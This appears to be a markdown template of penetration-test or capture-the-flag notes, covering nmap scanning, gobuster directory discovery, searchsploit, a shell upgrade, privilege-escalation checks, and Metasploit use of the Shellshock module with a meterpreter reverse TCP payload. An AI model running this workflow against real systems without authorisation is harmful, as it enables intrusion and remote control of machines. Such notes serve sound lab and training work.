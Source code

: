 # tempalte, flow

## Summary

+ example

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- <hostslot>
  # rename-tab
sudo vim /etc/hosts
```

## gobuster

```sh
dict="/usr/share/wordlists/dirb/common.txt"
ls -lah $dict                                    # 36KB
gobuster dir -u http://<hostslot>/ -w $dict -t 20 -e -x php,asp,json,aspx
  # 5min
  # find /cgi-bin/ (status 403)

gobuster dir -u http://<hostslot>/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 20 -e -x cgi,sh,pl,py,rb,php
  # 5min
  # find /user.sh (status 200)
```

## searchsploit

```sh
search keywords
searchsploit keywords
```

```sh
cdee
cp /usr/share/exploitdb/exploits/example ~/assets/example/temp.php
cda
```

## example-vector

## interactive shell

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
  # C-z to background the shell
stty raw -echo; fg
```

## post enum

```sh
ps aux
sudo -l
```

## privilege escalation

```sh
```

## msf

```msfconsole
msf> search <keywords>
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS <hostslot>
msf> ...

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```
